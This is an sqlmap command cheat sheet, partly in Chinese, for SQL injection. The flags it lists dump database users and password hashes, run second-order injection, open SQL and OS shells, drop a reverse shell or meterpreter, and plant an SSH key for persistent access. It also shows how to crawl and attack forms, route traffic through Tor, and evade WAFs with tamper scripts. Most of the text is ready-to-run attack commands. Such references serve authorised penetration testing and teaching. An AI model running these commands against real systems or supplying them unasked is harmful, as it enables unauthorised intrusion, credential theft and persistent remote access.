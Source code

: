   #### 使用
	sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
	-p 指定注入点，注入参数
	--user-agent 指定user-agent
	--random-agent 随机user-agent
	--threads 线程
	--risk 风险等级 随着等级的增多，增加格式的测试语句
	--level 随着level变多，payload增加，运行时间增加，还会测试请求头的注入
	--eta 显示每个输出的预计完成时间
	--dbms 指定当前数据库类型
	--os 指定系统版本
	--banner 获取数据库管理系统的标识
	--is-dba 测试是否为dba权限
	--dbs 列出全部数据库
	--current-user 列出当前用户
	加载请求文件使用手机useragent
	sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
  #### 自定义注入点UserAgent/Header/Referer/Cookie
  	用*号指定注入点
	python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
  #### 二阶注入
  	python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
	sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
  #### shell
	SQL Shell
	python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

	Simple Shell
	python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

	Dropping a reverse-shell / meterpreter
	python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

	SSH Shell by dropping an SSH key
	python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
  #### 使用 SQLmap 自动爬取网站和利用
	sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

	--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
	--crawl = how deep you want to crawl a site
	--forms = Parse and test forms
  #### 将 TOR 与 SQLmap 一起使用
	sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
  #### 代理
	sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
  #### 使用cookie 和代理
	sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
  #### 使用后缀篡改注入
	python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
  #### 使用tamper bypass waf
| Tamper | 描述 |
| --- | --- |
|0x2char.py | 用CONCAT(CHAR(),…) 替换每个 (MySQL) 0x<hex> 编码字符串 |